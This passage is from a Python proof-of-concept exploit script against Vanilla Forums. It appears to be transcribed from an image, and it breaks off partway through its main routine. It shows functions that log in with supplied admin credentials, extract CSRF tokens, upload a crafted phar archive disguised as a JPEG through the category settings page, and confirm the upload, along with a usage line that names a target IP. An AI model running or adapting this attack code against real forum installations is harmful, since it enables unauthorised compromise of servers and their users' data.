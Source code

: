 ```python
    k, c = extract_csrf(csrf)
    r = s.get("%s/index.php?p=/categories" % t)
    r.text
    match = re.search("uploads/(.*).jpg\" class=\"CategoryPhoto\" alt=\"General\"", r.text)
    if match:
        leaked = match.group(1)
        return True
    return False

def we_can_upload(t, csrf):
    """
    This function uploads the phar archive that we crafted
    """
    k, c = extract_csrf(csrf)
    f = { 'Photo_New': open('poc.jpg', 'rb') }
    p = {
      'TransientKey': k,
      'CategoryID': 1,
      'Save': "Save",
    }
    r = s.post("%s/index.php?p=/vanilla/settings/editcategory" % t, files=f, data=p, allow_redirects=False)
    if r.status_code == 302 and "vanilla/settings/categories" in r.headers['Location']:
        return True
    return False


def we_can_login(t, usr, pwd, csrf):
    """
    We just log in with this function
    """
    global s
    s = requests.session()
    k, c = extract_csrf(csrf)
    p = {
        "TransientKey": k,
        "Email": usr,
        "Password": pwd,
        "DeliveryType": "VIEW",
    }
    r = s.post("%s/index.php?p=/entry/signin" % t, cookies=c, data=p)
    if r.status_code == 200 and "\"FormSaved\": true" in r.text:
        return True
    return False

def main():
    """
    Start the pain train
    """
    global c, pwner_user
    if len(sys.argv) != 3:
        print "(+) usage: %s <target> <username:password>" % sys.argv[0]
        print "(+) eg: %s 172.16.175.143 admin:admin123" % sys.argv[0]
        sys.exit(-1)
    t = "http://%s" % sys.argv[1]
    c = sys.argv[2]
    usr = c.split(":")[0]
    pwd = c.split(":")[1]
    c = {}
    print "(+) targeting: %s" % t
    if we_can_login(t, usr, pwd, get_csrf_login(t)):
        print "(+) logged in!"
        csrf = get_csrf(t, c)
```